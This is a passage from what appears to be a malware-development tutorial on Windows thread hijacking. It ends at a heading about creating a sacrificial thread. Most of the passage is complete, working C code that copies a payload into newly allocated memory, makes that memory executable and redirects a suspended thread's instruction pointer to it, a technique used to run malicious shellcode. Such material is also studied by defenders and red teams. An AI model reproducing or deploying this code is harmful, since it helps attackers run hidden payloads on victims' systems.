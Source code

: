 - `hThread` - A handle to a **suspended** thread to be hijacked.
    
- `pPayload` - A pointer to the payload's base address.
    
- `sPayloadSize` - The size of the payload.
    

```c
BOOL RunViaClassicThreadHijacking(IN HANDLE hThread, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
	
	PVOID    pAddress         = NULL;
	DWORD    dwOldProtection  = NULL;
	CONTEXT  ThreadCtx        = { 
		.ContextFlags = CONTEXT_CONTROL 
	};

    // Allocating memory for the payload
	pAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL){
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Copying the payload to the allocated memory
	memcpy(pAddress, pPayload, sPayloadSize);

	// Changing the memory protection
	if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the original thread context
	if (!GetThreadContext(hThread, &ThreadCtx)){
		printf("[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Updating the next instruction pointer to be equal to the payload's address 
	ThreadCtx.Rip = pAddress;

	// Updating the new thread context
	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

### Creating The Sacrificial Thread
